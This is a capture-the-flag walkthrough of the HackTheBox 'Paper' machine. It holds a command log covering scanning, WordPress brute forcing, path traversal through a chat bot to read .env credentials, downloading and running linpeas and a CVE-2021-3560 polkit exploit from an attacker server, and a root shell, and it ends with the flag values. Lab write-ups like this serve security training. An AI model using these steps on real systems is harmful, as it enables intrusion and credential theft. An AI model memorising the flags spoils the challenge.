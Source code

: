 # Paper - Easy

```shell
sudo vim /etc/hosts
#map ip to paper.htb

nmap -T4 -p- -A -Pn -v paper.htb

gobuster dir -u http://paper.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -t 50 -k
#enumerate webpage on port 80

nikto -h http://paper.htb
#scan webpage on port 80

gobuster dir -u https://paper.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -t 50 -k
#enumerate webpage on port 443

nikto -h https://paper.htb
#scan webpage on port 443

sudo vim /etc/hosts
#add office.paper

cmseek
#check office.paper

vim usernames.txt

wpscan --url http://office.paper -U usernames.txt --passwords /usr/share/wordlists/rockyou.txt

sudo vim /etc/hosts
#add chat.office.paper

#interact with the recyclops bot in chat
#we get password

ssh dwight@paper.htb
#login using password found earlier

#get user flag

#in attacker machine
python3 -m http.server

#in ssh
cd /tmp

wget http://10.10.14.3:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#machine vulnerable to cve-2021-3560

wget http://10.10.14.3:8000/cve-2021-3560.sh

chmod +x cve-2021-3560.sh

./cve-2021-3560.sh -f=y -t=0.004
#creates user

su - secnigma
#enter given password

sudo bash
#we are now root
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.0
  * 80 - http - Apache httpd 2.4.37 (centos)
  * 443 - ssl/http - Apache httpd 2.4.37 (centos)

* Enumerating the webpage on port 80 shows that it is the default landing page for HTTP servers powered by ```CentOS```.

* Furthermore, using ```Wappalyzer```, we find out that the webpage is using Apache 2.4.37 and OpenSSL 1.1.1k

* We can attempt to scan for web directories using ```feroxbuster``` - this gives us only one directory /manual.

* Now, we can attempt to enumerate the SSL webpage on port 443 by visiting <https://paper.htb>

* We can also attempt to scan both webpages using ```nikto``` to check for any vulnerabilities.

* While scanning the webpage on port 80 using ```nikto```, we get this prompt:

```Uncommon header 'x-backend-server' found, with contents: office.paper```

* We can add this domain to /etc/hosts file and then we can visit this page.

* <http://office.paper> shows a blog page for 'Blunder Tiffin'.

* We can check what CMS this page is using with the help of ```cmseek```.

* This tool detects WordPress 5.2.3; moreover it enumerates two usernames 'nick' and 'creedthoughts'.

* Furthermore, the author is 'prisonmike' - we can note these usernames down.

* Now, one of the blog mentions that there exists drafts somewhere.

* Googling for exploits for WordPress 5.2.3 give us results for viewing unauthenticated/private/draft posts.

* Using this simple exploit, we can visit the link <http://office.paper/?static=1>

* This includes the draft content - it mentions a secret registration URL for a new employee chat system - <http://chat.office.paper/register/8qozr226AhkCHZdyY>

* To visit this link, we have to first add this domain to /etc/hosts

* Now, using this link, we can create an account and register - this allows us to read the chats in the ```general``` channel.

* We have multiple users; we can interact with them by 'direct message', as the channel is read-only.

* Out of all the users, only ```recyclops``` is online, so we can interact with this bot.

* Using the ```help``` command, we can see all the commands that the bot responds to in the chat.

* We can now type all the commands to interact and enumerate for clues; this bot has some bugs so it does not respond to all commands.

* ```recyclops list``` lists the '/sales/' directory; similarly we can list the 'sale' subdirectory using ```recyclops list sale/```

* Now, we can check file contents using ```recyclops file sale/portfolio.txt```

* The directories do not contain anything, but we can list the parent folder using ```recyclops list sale/../..``` - we can enumerate the files from here.

* By listing the '.env' file inside 'hubot' directory, we get creds "recyclops:Queenofblad3s!23"

* By printing output of '/etc/passwd' in a similar style, we can see that there are no users named 'recyclops' - but we have users 'rocketchat' and 'dwight'.

* Using the password found earlier, we can login as 'dwight' via SSH.

* After getting user flag, we can now check for privesc using ```linpeas```.

* ```linpeas``` shows that the machine is vulnerable to CVE-2021-3560, which exploits a vulnerability in ```polkit``` package.

* Googling for the exploit gives us a GitHub PoC script, which can be transferred to ssh session and executed.

* Running this script creates a new user on the machine, and switching to that user and running ```sudo bash``` gives us a root shell.

```markdown
1. User flag - 73375861470dc4bcdfeb69de755ab7c7

2. Root flag - a4ca1063acb3491403111e09ae34e7ba
```
